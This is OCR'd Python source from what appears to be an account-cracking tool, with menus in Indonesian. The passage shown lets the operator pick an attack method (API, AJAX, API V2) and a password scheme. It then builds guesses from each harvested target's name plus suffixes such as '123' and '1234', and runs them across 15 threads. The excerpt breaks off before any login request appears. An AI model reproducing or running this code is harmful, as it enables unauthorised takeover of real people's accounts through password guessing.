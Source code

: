 	def methodku(self):
		urut = []
		urut.append(Panel(f"API {H2}recommended{P2}",title=f"{R2}01{P2}",width=25,padding=(0,4),style=f"#FFFFFF"))
		urut.append(Panel(f"AJAX {H2}very slow{P2}",title=f"{R2}02{P2}",width=25,padding=(0,4),style=f"#FFFFFF"))
		urut.append(Panel(f"API V2 {H2}fast",title=f"{R2}03{P2}",width=27,padding=(0,6),style=f"#FFFFFF"))
		self.tol.print(Columns(urut))

	def passwordAPI(self,xnx):
		os.popen('play-audio data/sound/message.mp3')
		prints(Panel(f"{P2}total username terkumpul : {R2}{len(internal)}",width=80,padding=(0,20),style=f"#FFFFFF"))
		self.methodku()
		u = input(f'{P}[{B}?{P}] pilih method : {H}')
		if u in [""]:
		    method.append('satu')
		elif u in ["1","01"]:
		    method.append('satu')
		elif u in ["2","02"]:
		    method.append('dua')
		elif u in ["3","03"]:
		    method.append('tiga')
		else:
			method.append('satu')
		prints(Panel(f"{P2}[{R2}01{P2}]. nama, nama123, nama1234\n{P2}[{R2}02{P2}]. nama, nama123, nama1234, nama12345\n{P2}[{R2}03{P2}]. nama, nama123, nama1234, nama12345, nama123456\n{P2}[{R2}04{P2}]. nama, nama123, nama1234, manual",title=f"{M2}• {K2}• {H2}•{P2} PASSWORD {H2}• {K2}• {M2}•",width=80,padding=(0,4),style=f"#FFFFFF"))
		c=input(f'{P}[{B}?{P}] pilih password : {H}')
		if c in ["1","01"]:
			self.generateAPI(xnx,c)
		elif c in ["2","02"]:
			self.generateAPI(xnx,c)
		elif c in ["3","03"]:
			self.generateAPI(xnx,c)
		elif c in ["4","04"]:
			prints(Panel(f"{P2}gunakan tanda koma ({R2},{P2}) untuk pemisahan contoh sayang, sayang123, kontol",width=80,padding=(0,3),style=f"#FFFFFF"))
			zx=input(f'{P}[{B}?{P}] masukan password : {H}')
			self.generateAPI(xnx,c,zx)
		else:
			self.passwordAPI(xnx)

	def generateAPI(self,user,o,zx=''):
		self.ingfo()
		with ThreadPoolExecutor(max_workers=15) as adtyaxc:
			for i in user:
				try:
					username=i.split("|")[0]
					password=i.split("|")[1].lower()
					for w in password.split(" "):
						if len(w)<3:
							continue
						else:
							w=w.lower()
							if o=="1":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w,w+'123',w+'1234']
								else:
									sandi=[w,w+'123',w+'1234']
							elif o=="2":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w,w+'123',w+'1234',password.lower()]